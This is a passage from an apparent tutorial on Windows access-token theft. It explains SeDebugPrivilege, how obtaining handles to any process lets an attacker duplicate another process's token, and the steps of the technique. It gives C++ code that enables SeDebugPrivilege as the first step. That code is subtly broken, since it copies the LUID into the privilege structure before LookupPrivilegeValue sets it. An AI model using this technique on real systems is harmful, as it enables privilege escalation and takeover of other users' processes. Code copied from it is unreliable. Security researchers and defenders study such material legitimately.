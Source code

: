 one without:    

![token](/assets/images/71/2022-09-28_02-28_1.png){:class="img-responsive"}    

and compare via Process Explorer:     

![token](/assets/images/71/2022-09-28_02-34.png){:class="img-responsive"}    

As you can see, when we run `cmd.exe` with Administrator privileges the `BUILTIN\Administrators` flag is set to `Owner`. Which means `cmd.exe` is running in the security context of Administrator privileges.    

What does this difference mean in the context of the token theft technique? It is mean that we may carry out the following operations:      
- impersonate a client upon authentication using `SeImpersonatePrivilege`      
- we can debug programs.       

### SeDebugPrivilege

If a token has the `SeDebugPrivilege` privilege enabled it is enable a user to bypass/skip the access check in the kernel for a given object. You can retrieve a handle to any process in the system by enabling the `SeDebugPrivilege` in the calling process. The calling process can then call the `OpenProcess()` Win32 API to obtain a handle with `PROCESS_ALL_ACCESS`, `PROCESS_QUERY_INFORMATION`, or `PROCESS_QUERY_LIMITED_INFORMATION`.      

### technique. practical example

Creating a new process using a "stolen" token from another process is one of the strategies of token manipulation.
This occurs when a token of an existing access token present in one of the active processes on the target host is extracted, duplicated, and then used to create a new process, so granting the new process the privileges of the stolen token.

The following is an overview of the token theft procedure that will be carried out in this practical case:     

![token](/assets/images/71/attack-1.png){:class="img-responsive"}    

First of all, sometimes you do have `SeDebugPrivilege` in your current set of privileges, but it is disabled, so you must turn it on:    

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```
